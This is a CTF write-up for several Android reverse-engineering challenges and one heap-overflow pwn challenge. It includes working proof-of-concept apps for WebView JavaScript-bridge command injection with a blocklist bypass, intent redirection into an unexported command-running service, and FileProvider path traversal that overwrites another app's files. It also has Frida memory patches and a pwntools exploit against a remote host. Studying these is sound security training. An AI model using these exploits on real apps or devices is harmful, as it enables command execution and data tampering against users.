

# Android
## Dash


The application was a flutter app and it was obfuscated, Decompiling it would bring you more tears and regrets.
The message `Debugging means we don't just thow exceptions; we aim for solutions` 
suggests insecure logging. Opening the app we click the floating action button and a base92 encoded string is logged.


Decode the string with cyber chef.


## Compose Cipher


Opening the apk requires us to input some string.


Decompiling the apk with jadx-gui we notice we only have one activity in the `AndroidManifest.xml` file;

```xml
...
<activity
    android:theme="@style/Theme.ComposeCipher"
    android:label="@string/app_name"
    android:name="com.example.composecipher.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
...
```

Moving on to the MainActivity we find the function being called when the compose button
is clicked. Its simply a AES algorithm trying to compare out input with that of a AES decrypted value.


```java
...
public static final j invoke$lambda$7$lambda$6$lambda$5(MainActivity mainActivity, V v2) {
    h.e(mainActivity, "this$0");
    h.e(v2, "$textState$delegate");
    if (h.a(invoke$lambda$7$lambda$1(v2).f3737a.f2441a, MainActivityKt.access$decryptAES(new Secrets().getEncrypted(), new Secrets().getPass(), MainActivityKt.hexStringToByteArray(new Secrets().getSalt()), MainActivityKt.hexStringToByteArray(new Secrets().getIv())))) {
        Toast.makeText(mainActivity, "Congratulations compose ninja", 0).show();
    } else {
        Toast.makeText(mainActivity, "You are unworthy to enter the compose", 0).show();
    }
    return j.f867a;
}
...
```

The function takes in some values located in another class `Secrets`.

```java
...
public final class Secrets {
    public static final int $stable = 8;
    private String salt = "263BC60258FF4876";
    private String iv = "7E892875A52C59A3B588306B13C31FBD";
    private String pass = "jetpackninja";
    private String encrypted = "AhtqeRhKca1XDRVAXTxqEEYNwpAo4vUqoFayhaH5vmcktJ9WbZTAOBI6e8Ubfg7u1PLfPEBILkVmZgQenapt0vzilnnh2qdSHcLiHbJnUYk=";
    ...
```

Next was to write a simple python script to reverse this process.

```python
import base64
import hashlib
from Crypto.Cipher import AES

def hex_string_to_byte_array(hex_string):
    """Convert a hex string to a byte array."""
    return bytes.fromhex(hex_string)

def derive_key(password, salt, iterations=10000, key_length=32):
    """Derive a key using PBKDF2 with HMAC-SHA256."""
    key = hashlib.pbkdf2_hmac('sha256', password.encode(), salt, iterations, dklen=key_length)
    return key

def decrypt_aes(encrypted_text, password, salt, iv):
    """Decrypt AES/CBC/PKCS5Padding encrypted text."""
    try:
        # Derive key
        key = derive_key(password, salt, iterations=10000, key_length=32)
        # Initialize cipher
        cipher = AES.new(key, AES.MODE_CBC, iv)
        # Decode and decrypt
        encrypted_bytes = base64.b64decode(encrypted_text)
        decrypted_bytes = cipher.decrypt(encrypted_bytes)
        # Remove padding (PKCS5/PKCS7)
        padding_length = decrypted_bytes[-1]
        decrypted_text = decrypted_bytes[:-padding_length].decode('utf-8')
        return decrypted_text
    except Exception as e:
        return f"Decryption Error: {e}"
# Inputs
salt_hex = "263BC60258FF4876"
iv_hex = "7E892875A52C59A3B588306B13C31FBD"
password = "jetpackninja"
encrypted_text = "AhtqeRhKca1XDRVAXTxqEEYNwpAo4vUqoFayhaH5vmcktJ9WbZTAOBI6e8Ubfg7u1PLfPEBILkVmZgQenapt0vzilnnh2qdSHcLiHbJnUYk="
# Convert hex strings to byte arrays
salt = hex_string_to_byte_array(salt_hex)
iv = hex_string_to_byte_array(iv_hex)
# Decrypt
decrypted_message = decrypt_aes(encrypted_text, password, salt, iv)
print("Decrypted Message:", decrypted_message)
```

Finally we decode the output to get the flag.

```bash
echo "YzBtcDBzM180bmRfcjNjMG1wb3MzX3kwdXJfYzFwaDNyXzFuX2swdGwxbiFfY2Y2Mjk2MzMy" | base64 -d
c0mp0s3_4nd_r3c0mpos3_y0ur_c1ph3r_1n_k0tl1n!_cf6296332
```

## Hello Android


Decompiling the apk with jadx-gui we notice that we only have one activity in the `AndroidManifest.xml` file.

```xml
<activity
    android:name="com.example.helloandroid.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

The main activity uses the `System.loadLibrary()` java method to load a native library `helloandroid` to the app.
`this.binding.sampleText.setText(stringFromJNI())` sets the text of a TextView in the layout to the string returned
by the `stringFromJNI()` method. 

```java
...
public class MainActivity extends AbstractActivityC0137j {
    ...
    static {
        System.loadLibrary("helloandroid");
    }
    ...
    @Override
    public void onCreate(Bundle bundle) {
        ...
        this.binding.sampleText.setText(stringFromJNI());
    }
    public native String stringFromJNI();
}
```

To retrive the binary we use `apktool` to decompile the apk. and navigate to `helloandroid/lib/arm64-v8a` where 
the binary for the specified architecture is stored.

```bash
apktool d helloandroid.apk
```

Decompiling the binary with binary ninja we notice a method that was `neverCalled`. It does some logging
`Decrypt Success`. All we have to do is call the function and check the logs. There are several ways to
approach this; but the easy and quick way was to use frida. The other approach can be found here
 https://developer.android.com/studio/projects/add-native-code


we create a frida script to trigger the method.

```js
const moduleName = "libhelloandroid.so"; // module name of the binary
const symbolName = "Java_com_example_helloandroid_MainActivity_neverCalled"; // function name to be called
const env = Java.vm.getEnv(); // environment variable to be passed to the function 

const funcAddress = Module.findExportByName(moduleName, symbolName); // find the address using a frida api
console.log("Function address:", funcAddress);

const neverCalled = new NativeFunction(funcAddress, 'pointer', ['pointer', 'pointer']); // function takes two arguments, both of which are pointers

console.log("Env address", env.handle)
neverCalled(env.handle, ptr(0)); // calling the function with the parameters
```

Running the exploit.

```bash
frida -U -l frida.js -f com.example.helloandroid
```

Reload it to get the addresses once loaded into memory.


Check for the logs to retrieve the flag.


## Spider View


Opening the app we are motivated not to give up.


Decompiling the apk with jadx-gui we get a intent filter in the MainActivity.

```xml
...
<activity
    android:name="com.example.spiderview.MainActivity"
    android:exported="true">
    ...
    <intent-filter>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:host="spiderview"/>
        <data android:scheme="http"/>
        <data android:scheme="https"/>
    </intent-filter>
</activity>
...
```

This MainActivity retrieves an intent and checks for two possible extras: `viewContent` and `url`. If neither is found, it tries to get the URL from the intent's data; if still not found, it defaults to loading a YouTube link in the WebView https://www.youtube.com/watch?v=dQw4w9WgXcQ. If `viewContent` is available, it loads that content as HTML into the WebView.

```java
...
public class MainActivity extends AbstractActivityC0156j {
    ...
    @Override
    public void onCreate(Bundle bundle) {
        ...
        Intent intent = getIntent();
        String stringExtra = intent.getStringExtra("viewContent");
        if (stringExtra == null) {
            String stringExtra2 = intent.getStringExtra("url");
            if (stringExtra2 == null && (data = intent.getData()) != null) {
                stringExtra2 = data.toString();
            }
            if (stringExtra2 != null) {
                this.webView.loadUrl(stringExtra2);
                return;
            } else {
                this.webView.loadUrl("https://www.youtube.com/watch?v=dQw4w9WgXcQ");
                return;
            }
        }
        this.webView.loadData(stringExtra, "text/html", "UTF-8");
    }
}
```

`settings.setJavaScriptEnabled(true)` enables JavaScript execution within the WebView. safe browsing features are disabled for Android 8.0 (API level 26) and higher devices to allow for potentially insecure content to load in the WebView.`this.webView.addJavascriptInterface(new SpiderInterface(this), "SpiderView")` creates a bridge between JavaScript running in the WebView and the Android app by adding the `SpiderInterface` class as an accessible object in JavaScript under the name `SpiderView`.

```java
...
public class MainActivity extends AbstractActivityC0156j {
    private WebView webView;
    ...
    private void configureWebView() {
        WebSettings settings = this.webView.getSettings();
        settings.setJavaScriptEnabled(true);
        if (Build.VERSION.SDK_INT >= 26) {
            settings.setSafeBrowsingEnabled(false);
        }
        this.webView.setWebChromeClient(new WebChromeClient());
        this.webView.setWebViewClient(new WebViewClient());
        this.webView.addJavascriptInterface(new SpiderInterface(this), "SpiderView");
    }
    ...
}
```

`testRunCommand()` decodes a base64-encoded command checks if the command matches a list of `utility` commands.If it does, the command is blocked. If the command is not blocked, it is executed using `Runtime.getRuntime().exec()` which decodes the command.This means we can bypass this using double encoding method.

```java
...
public class SpiderInterface {
    ...
    @JavascriptInterface
    public void testRunCommand(String str) {
        try {
            String trim = new String(Base64.decode(str, 0)).trim();
            if (isUtilityCommand(trim)) {
                ...
                Toast.makeText(this.context, "Blocked dangerous command", 0).show();
                return;
            }
            Process exec = Runtime.getRuntime().exec(new String(Base64.decode(trim, 0)).trim());
            ...
        }
    }
}
```

These are the filtered commands and we are required to run one of them

```java
private boolean isUtilityCommand(String str) {
    String[] strArr = {"cat", "ls", "echo", "grep", "find", "head", "tail", "wc", "cp", "mv", "rm", "mkdir", "rmdir", "chmod", "chown", "ps", "top", "df", "du", "ifconfig", "ping", "curl", "wget", "scp", "ssh", "man", "nano", "vi", "sed", "awk", "sort", "uniq", "tar", "gzip", "gunzip", "zip", "unzip", "touch", "history"};
    ...
}
```

Let's create our POC app to run one of the utility commands.

```java
package com.example.spiderviewsolution;

import android.content.Intent;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);

        Intent intent = new Intent();
        intent.setClassName("com.example.spiderview", "com.example.spiderview.MainActivity"); // set the classname of the app and activity to send our intent
        intent.putExtra("viewContent", "<html><script>SpiderView.testRunCommand(\"YkhNPQ==\");</script></html>"); // write our payload as a string extra to run javascript and call the interface method

        button.setOnClickListener(v -> startActivity(intent)); // trigger the exploit when a button is clicked
    }
}
```

We run our exploit and click the button and the `ls` commands runs successfuly.


## Hunter X Hunter


Opening the apk we get this screen.


In the `AndroidManifest.xml` file we notice `HuntersPortal` is not exported, meaning it can't be launched by other apps. `HuntersService` is enabled but not exported, so it can only be used internally within the app. `MainActivity` has two intent filters, one for launching the app and one for handling `VIEW` intents from other apps.

```xml
...
<activity
    android:name="com.example.hunterx.HuntersPortal"
    android:exported="false"/>
<service
    android:name="com.example.hunterx.HuntersService"
    android:enabled="true"
    android:exported="false"/>
<activity
    android:name="com.example.hunterx.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
...
```

MainActivity retrieves the incoming intent with `getIntent()` and checks if it contains an `action` and a parcelable extra named `nextIntent`. If both conditions are met, it starts a new activity `startActivity()` using the Intent object stored in the `nextIntent` extra hence an Intent Redirection vulnerability.

```java
...
public class MainActivity extends AbstractActivityC0156j {
    ...
    @Override
    public void onCreate(Bundle bundle) {
        ...
        Intent intent = getIntent();
        if (intent.getAction() != null && intent.getParcelableExtra("nextIntent") != null) {
            startActivity((Intent) intent.getParcelableExtra("nextIntent"));
        }
    }
}
```

The `HuntersPortal` activity retrieves the incoming intent using `getIntent()`, checks if the `action` is `ProHunter`, and if so, updates the `TextView` and also starts a service `startService()` using the `nextIntent` parcelable extra from the intent hence another Intent Redirection vulnerability.

```java
...
public class HuntersPortal extends AbstractActivityC0156j {
    ...
    @Override
    public void onCreate(Bundle bundle) {
        ...
        Intent intent = getIntent();
        String action = intent.getAction();
        if (action != null && action.equals("ProHunter")) {
            textView.setText("This is the way of the Pro Hunters");
            startService((Intent) intent.getParcelableExtra("nextIntent"));
        }
    }
}
```
`HuntersService` service `onStartCommand()` function checks for an incoming intent with the extra `run` and decodes its Base64 string to execute it as a command. It starts a new thread to run the command, processes its output, and logs the results while showing a success toast.

```java
...
public class HuntersService extends Service {
    @Override
    public int onStartCommand(Intent intent, int i2, int i3) {
        Log.d("ill make sure i remove this in the production", "onStartCommand: ");
        if (intent != null && intent.getStringExtra("run") != null) {
            try {
                ...
                new Thread(new o(this, i4, Runtime.getRuntime().exec(new String(Base64.decode(intent.getStringExtra("run"), 0)).trim()))).start();
                ...
            } catch (IOException e2) {
                ...
            }
        }
        ...
    }
}
```

Lets now create our poc apk to run a command.

```java
package com.example.hunterxsolution;

import android.content.Intent;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        // create an intent to call the internal service component
        Intent serviceIntent = new Intent();
        serviceIntent.setClassName("com.example.hunterx", "com.example.hunterx.HuntersService");
        serviceIntent.putExtra("run", "bHM=");

        // Create an intent to call the unexported hunters portal activity using intent redirection
        Intent proHunterIntent = new Intent();
        proHunterIntent.setAction("ProHunter");
        proHunterIntent.setClassName("com.example.hunterx", "com.example.hunterx.HuntersPortal");

        // pass the serviceIntent as the next intent
        proHunterIntent.putExtra("nextIntent", serviceIntent);

        // create our main intent with the correct action
        Intent intent = new Intent();
        intent.setAction(Intent.ACTION_VIEW);
        intent.setClassName("com.example.hunterx", "com.example.hunterx.MainActivity");

        // pass the proHunterIntent as the next intent
        intent.putExtra("nextIntent", proHunterIntent);

        // create a button to trigger the exploit
        Button button = findViewById(R.id.button);
        button.setOnClickListener(v -> startActivity(intent));
    }
}
```

We run the exploit and click the button to trigger the exploit. Intent redirection allowed us to access unexported components.



## Uncharted Path


`UnchartedPathActivity` is exported. Also we have a A FileProvider which is a special 
kind of content provider that facilitates secure sharing of files between an app and other apps by generating content URIs for files, `android:grantUriPermissions="true"` Allows the app to grant temporary permissions to other apps for accessing the files through the FileProvider. `android:name="android.support.FILE_PROVIDER_PATHS"` Specifies that this FileProvider uses a filepaths XML resource file to define which files/directories can be shared.`android:resource="@xml/filepaths"` Points to the filepaths.xml file in the res/xml directory. This file defines the locations of the files or directories that the FileProvider can access and share.

```xml
<activity
    android:name="com.example.unchartedpath.UnchartedPathActivity"
    android:exported="true"/>
<activity
    android:name="com.example.unchartedpath.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
<provider
    android:name="androidx.core.content.FileProvider"
    android:exported="false"
    android:authorities="com.unchartedpath.fileprovider"
    android:grantUriPermissions="true">
    <meta-data
        android:name="android.support.FILE_PROVIDER_PATHS"
        android:resource="@xml/filepaths"/>
</provider>
```

`path="/"` Specifies the root of the file system (/). This gives access to the entire file system, including sensitive directories such as /system, /data, and /sdcard which is dangerous.

```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```

Retrieves the filename passed as an extra in the Intent that started this activity. A File object is then created pointing to a file in the app's internal files directory `getFilesDir()`, appending the filename. A custom FileProvider object `C0362d` is initialized with the app context and authority `com.unchartedpath.fileprovider`. This object manages file paths and their mappings to `content:// URIs`.If a matching root is found its Constructs a content:// URI using the root's authority `c2.f3932a` and the relative path. Lastly an Intent is created, sets the content:// URI as its data, and adds permission flags to `3`. Sets the activity result so that the caller can retrieve the URI and the permissions.

```java
...
public class UnchartedPathActivity extends AbstractActivityC0156j {
    ...
    @Override
    public void onCreate(Bundle bundle) {
        ...
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            File file = new File(getFilesDir(), stringExtra);
            C0362d c2 = FileProvider.c(this, "com.unchartedpath.fileprovider");
            try {
                ...
                if (entry != null) {
                    ...
                    Uri build = new Uri.Builder().scheme("content").authority(c2.f3932a).encodedPath(Uri.encode((String) entry.getKey()) + '/' + Uri.encode(substring, "/")).build();
                    Intent intent = new Intent();
                    intent.setData(build);
                    intent.addFlags(3);
                    setResult(0, intent);
                    return;
                }
                ...
            } 
        }
        textView.setText("The path is Long and dangerous");
    }
}
```

Looking at the permissions in android studio we notice that we get both read `0x00000001` and write `0x00000002` which gives `3` . 
This means we can read and write any file in the whole system of android where this app is installed.


Lets now create an exploit to edit the shared treasure_preference file

```java
package com.example.unchartedpathsolution;

import android.content.ContentResolver;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.annotation.Nullable;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

import java.io.IOException;
import java.io.OutputStream;
import java.io.OutputStreamWriter;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });
        Button button = findViewById(R.id.button);
        button.setOnClickListener(v -> {
            Intent intent = new Intent();
            // putextra the file name we want to be granted the permissions to read and write
            intent.putExtra("filename", "../shared_prefs/treasure_preference.xml");
            // set the classname to trigger
            intent.setClassName("com.example.unchartedpath", "com.example.unchartedpath.UnchartedPathActivity");
            // start activity for result since we expect to receive a result from the other app
            startActivityForResult(intent, 42);
        });
    }
    // ovveride on activity result to handle the received result from the other app
    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        Uri uri = data.getData();
        String xmlContent = "<?xml version='1.0' encoding='utf-8' standalone='yes' ?>\n" +
                "<map>\n" +
                "    <boolean name=\"Libertalia\" value=\"true\" />\n" +
                "</map>\n";
        try {
            // use a content resolver to overwrite the contents
            ContentResolver resolver = getContentResolver();
            OutputStream outputStream = resolver.openOutputStream(uri);
            if (outputStream != null) {
                outputStream.write(xmlContent.getBytes());
                outputStream.close();
                Log.d("Exploit", "Successfully wrote to file: " + uri);
            }
        } catch (IOException e) {
            Log.e("Exploit", "Failed to write file: " + e.getMessage());
            e.printStackTrace();
        }
    }
}
```

First we need to click the button run the POC app to be granted the permissions to overwrite the files.


Next we navigate back to our app to trigger the onActivityResult function to overwrite the files using the granted permissions;


## Dino Flame


The game is open source you can find the source code here https://github.com/ufrshubham/dino_run. I modified the main game to show a flag when a user scores higher than 2147483647 points.


Since most Android games rely heavily on native libraries (libs) for performance-critical tasks like rendering, physics simulation, and audio processing the first option was to decompile the app with apktool and navigate to
the `/lib/arm64-v8a` directory to check for the libraries used.

```bash
apktool d dinoflame.apk
```

We notice a library named libflutter.so which is the flutter engine responsible for running and managing Dart
Virtual Machine. The libapp.so is the native code representation of the Flutter application's Dart code written
by the developer

```bash
libapp.so  libflutter.so
```

The libapp.so contains a dart snapshot which is a serialized representation of Dart objects, bytecode, or AOT instructions. Disassemblers won't natively understand this format. Let's inspect the entries of the binary.`_kDartVmSnapshotInstructions` contains the compiled machine code for the Dart Virtual Machine's core libraries and runtime. `_kDartIsolateSnapshotInstructions` contains the compiled machine code for the application's own Dart code, which is specific to the main isolate (or other isolates if spawned); includes code and data for your application's logic.

```bash
r2 libapp.so
...
[0x00150000]> aaa
...
[0x00150000]> iE
[Exports]
nth paddr      vaddr      bind   type size    lib name                              demangled
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
1   0x00150000 0x00150000 GLOBAL OBJ  92944       _kDartVmSnapshotInstructions
2   0x00166b40 0x00166b40 GLOBAL OBJ  2228416     _kDartIsolateSnapshotInstructions
3   0x00000200 0x00000200 GLOBAL OBJ  16032       _kDartVmSnapshotData
4   0x000040c0 0x000040c0 GLOBAL OBJ  1355840     _kDartIsolateSnapshotData
5   0x000001c8 0x000001c8 GLOBAL OBJ  32          _kDartSnapshotBuildId
[0x00150000]> 
```

This is what happens at runtime when a flutter app is fired up.


To decompile the app we need to use blutter tool https://github.com/worawit/blutter. we need to provide input dir and the outputdir.

```bash
python blutter.py indir outdir
python blutter.py /home/plaintext/Downloads/dinoflame/lib/arm64-v8a/ dinooo
```

The decompiled code will now be located at `dinoo/asm/dino_flame/`. Let's try and search for code related to score. We notice something of more interest `set _ currentScore` at `models/player_data.dart` line number `37` that seems to set the score.

```bash
plaintext@archlinux ~/D/t/b/d/a/dino_flame (main)> grep -rin "score"
...
models/player_data.dart:37:  set _ currentScore=(/* No info */) {
...
```

Further investigating the code at Line number `53` we notice a field of an object in memory is accessed. We can use the address `0x29ce0c` to see the values being accessed.

```java
1	// lib: , url: package:dino_flame/models/player_data.dart
    ...
7	// class id: 1890, size: 0x48, field offset: 0x30
8	class PlayerData extends _Settings&ChangeNotifier&HiveObjectMixin {
     ...
37	 set _ currentScore=(/* No info */) {
38	   // ** addr: 0x29cde8, size: 0x5c
       ...
51	   // 0x29ce08: StoreField: r0->field_3f = r2
52	   //     0x29ce08: stur            x2, [x0, #0x3f]
53	   // 0x29ce0c: LoadField: r1 = r0->field_2f
54	   //     0x29ce0c: ldur            x1, [x0, #0x2f]
       ...
75	 }
76	}
```

Blutter tools creates a frida script automatically for us named `blutter_frida.js`.  We set `const fn_addr` to `0x29ce0c` at line number 6 to the address loading the object; and leave the rest of the code as it is.

```js
   ...
5  function onLibappLoaded() {
6      const fn_addr = 0x29ce0c;
7      Interceptor.attach(libapp.add(fn_addr), {
8          onEnter: function () {
9              init(this.context);
10              let objPtr = getArg(this.context, 0);
11              const [tptr, cls, values] = getTaggedObjectValue(objPtr);
12              console.log(`${cls.name}@${tptr.toString().slice(2)} =`, JSON.stringify(values, null, 2));
23          }
24      });
25  }
    ...
```

Let's use a real unrooted device for the demonstration. We use objection to patch our apk.

```bash
objection patchapk -s dinoflame.apk
```

Finally we install it to our device.

```bash
adb install dinoflame.objection.apk
```

We run the apk which reveals a dark screen. We use `objection explore` command to trigger the app to run


next we load our script in the current directory with `evaluate blutter_frida.js` command inside objection. After playing the game for sometime we notice the value at `off_40` reflects the same value as the score. 


So all we have to do is ovverwrite the value in memory at `off_40` to `2147483647` to pass the score. We modify our `blutter_frida.js` script to trigger that.

```js
...
5  function onLibappLoaded() {
6      const fn_addr = 0x29ce0c;
7      Interceptor.attach(libapp.add(fn_addr), {
8          onEnter: function () {
9              init(this.context);
10              let objPtr = getArg(this.context, 0);
11              const [tptr, cls, values] = getTaggedObjectValue(objPtr);
12              console.log(`${cls.name}@${tptr.toString().slice(2)} =`, JSON.stringify(values, null, 2));
14              const currentScore = parseInt(values.off_40, 10);
15              console.log("Current Score (off_40):", currentScore);
17              const newScore = 2147483647; // Replace with your desired value
18              const fieldOffset = 0x40; // Offset for "off_40"
20              // Write the new value to memory
21              const memoryAddress = tptr.add(fieldOffset);
22              Memory.writeS32(memoryAddress, newScore);
23          }
24      });
25  }
...
```

Running the app with the new code we finnally get our flag;


The flag was hardcoded in the game, allowing it to be retrieved easily without completing the intended steps. However, that wasn’t my goal when designing the challenge; and yet, no one managed to solve it.

# PWN
## Heap wars


```bash
python exploit.py
...
[+] Opening connection to 94.72.112.248 on port 1337: Done
[*] Switching to interactive mode
 Flag content:
r00t{h34p_0v3rfl0w_1n_th3_f0rc3_1ebfe9e04a01ac4b00d4bd194b1bd505}Jedi code saved.
====== Jedi Training Menu ======
1. Enter your Jedi code
2. Jedi data
3. Jedi next bounty
4. Exit
Enter your choice: $
```

```python
from pwn import *

filename = "./challenge/challenge/heap_wars"

elf = ELF(filename)
#context.log_level = 'debug'
context.binary = elf

# p = process(filename)

p = remote('94.72.112.248', 1337)

p.recvuntil(b'Enter your choice:')
p.sendline(b'2')
p.recvuntil(b"Jedi data: ")
data_address = p.recvline()
int_data_address = int(data_address.strip(), 16)

p.recvuntil(b'Enter your choice:')
p.sendline(b'3')
p.recvuntil(b"Jedi bounty: ")
function_address = p.recvline()
int_function_address = int(function_address.strip(), 16)

the_force_function_address = elf.symbols['theForce']

padding = b'A' * (int_function_address - int_data_address)
payload = padding + p64(the_force_function_address)

p.recvuntil(b'Enter your choice:')
p.sendline(b'1')
p.recvuntil(b'Enter your Jedi code:')
p.sendline(payload)

p.interactive()
```